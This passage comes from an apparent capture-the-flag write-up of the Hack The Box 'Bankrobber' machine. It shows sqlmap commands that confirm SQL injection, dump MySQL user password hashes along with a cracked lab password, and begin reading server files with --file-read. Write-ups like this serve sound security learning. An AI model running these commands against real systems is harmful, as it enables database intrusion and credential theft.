 Then I run `sqlmap -r search.req` to start testing for injection points. As expected it quickly finds the injection point:

![](/assets/images/htb-writeup-bankrobber/sql1.png)

## Exploring with sqlmap

First I'll check which user the webapp is running as on the MySQL server: `sqlmap -r search.req --current-user`

```
current user: 'root@localhost'
```

I'm root so I should be able to get the passwords hashes with: `sqlmap -r search.req --passwords`

```
[*] pma [1]:
    password hash: NULL
[*] root [1]:
    password hash: *F435725A173757E57BD36B09048B8B610FF4D0C4
```

A quick search online shows the password for this hash is: `Welkom1!`

![](/assets/images/htb-writeup-bankrobber/hash1.png)

Nice but that doesn't really help me for now. Next I'll get the source code of various PHP files in the web app. This is a Windows box running Apache and PHP so I'm probably looking at a XAMPP stack. A quick search online shows the default base directory for XAMPP is: `C:/xampp/htdocs`

I can use the `--file-read` flag in sqlmap to read files:
